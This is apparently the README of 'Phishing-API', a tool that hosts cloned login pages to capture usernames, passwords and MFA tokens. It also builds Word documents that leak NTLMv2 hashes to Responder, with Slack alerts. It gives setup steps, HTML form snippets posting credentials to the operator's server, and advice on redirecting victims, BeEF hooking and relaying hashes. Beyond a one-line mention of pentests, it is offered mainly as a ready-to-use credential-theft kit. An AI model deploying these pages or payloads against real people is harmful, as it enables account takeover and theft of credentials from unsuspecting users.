 # Phishing-API
This API has two main features.  One allows you to easily deploy cloned landing pages for credential stealing and the other feature is weaponized Word doc creation.  Both are integrated into Slack for real-time alerting.  There's a free service I'm running with a similiar code-base at https://phishapi.com.  


## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well so if you're running Responder in a background session you can capture NTLMv2 hashes and be notified via Slack!  Support for weaponizing your own Word doc templates is built in.  Just upload an existing doc and download it again to hook it.  You can also choose to use Basic Auth which prompts the user for credentials, just like Phishery does!


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (Configure DNS MASKED Forwarding Instead of an A Name Record for Best Results)



# 1) To Use the API for Capturing Credentials from Fake Sites : 

Rapid & Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	(OPTIONAL MFA FIELD)  `<INPUT NAME="token">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials

<p align="center">
<img src="https://i.imgur.com/L8yYRMQ.png" width="75%">
<br/><br/></p>
                  
<p align="center">           
![View Captured Credentials via Web](https://i.imgur.com/2ayiRRW.png)
<br /><br/>
</p>

# 2) To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Create /var/www/uploads Path and make sure your web user has sudoers access

3) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

4) Optionally set up [Responder](https://github.com/SpiderLabs/Responder "Responder") in a background process and run `phishinghashes.sh` every minute or so with cron

5) Set up your php.ini to allow uploads of at least 15MB and enable browsecap.ini for parsing UserAgent strings, otherwise some functionality may be limited.  

6) Email your doc and wait for the Slack alerts!

**Bonus points if you use your docs as honeypot bait! :)**

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/LW4BUjN.png">
</p>
                  
            
<br /><br/>
<p align="center">
<img src="https://i.imgur.com/Sx1b1Z5.png">
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/sw8JWQE.png" width="40%">
</p>
                  

<br /><br/>
<p align="center">
<img src="https://i.imgur.com/FXdDm6t.png" width="75%">
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/ku6UTNI.png" width="75%">
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/JJJWTnZ.png">
</p>


<br /><br/>
<p align="center">
<img src="https://i.imgur.com/qZFGmXA.png">
</p>


<br /><br/>
<p align="center">
<b>Currently, I'm running [Responder](https://github.com/SpiderLabs/Responder "Responder") in a Screen session with `phishinghashes.sh` scheduled via Cron to run every minute to pick up hashes, correlate phished users, and alert via Slack.  You can also relay those hashes with another tool if you'd like to take things even further.  Enjoy! :)</b></p>

